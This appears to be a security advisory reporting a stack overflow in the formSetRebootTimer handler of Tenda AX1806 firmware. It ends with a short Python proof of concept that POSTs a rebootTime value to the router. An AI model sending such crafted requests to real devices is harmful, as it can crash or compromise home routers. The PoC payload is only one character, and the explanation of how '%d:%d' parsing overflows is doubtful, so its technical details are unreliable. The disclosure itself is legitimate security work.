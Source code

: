 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-3422.html

## Affected version

AX1806 V1.0.0.1

## Vulnerability details

The Tenda AX1806 V1.0.0.1 firmware has a stack overflow vulnerability in the `formSetRebootTimer` function. The `v4` variable receives the `rebootTime` parameter from a POST request. However, since the user can control the input of `rebootTime`, the statement `v8 = _isoc99_sscanf(v4, "%d:%d", &v17, &v18);` can cause a buffer overflow. The user-provided `rebootTime` can exceed the capacity of the `v17, v18` array, triggering this security vulnerability.

![image-20240418171142325](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240418171142325.png)

![image-20240418171133189](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240418171133189.png)

## POC

```python
import requests

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetRebootTimer"
payload = "a"*1

data = {"rebootTime": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240415125733742](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240415125733742.png)